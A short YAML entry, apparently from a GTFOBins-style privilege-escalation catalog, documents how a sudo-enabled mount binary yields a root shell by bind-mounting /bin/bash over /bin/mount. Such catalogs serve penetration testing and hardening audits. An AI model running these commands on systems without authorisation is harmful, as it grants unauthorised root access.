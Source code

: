 ```yaml
---
functions:
  sudo-enabled:
  - description: bind mount bash to the mount binary, as mount is sudo enabled.
    code: |
      sudo mount -o bind /bin/bash /bin/mount
      sudo mount
---
```

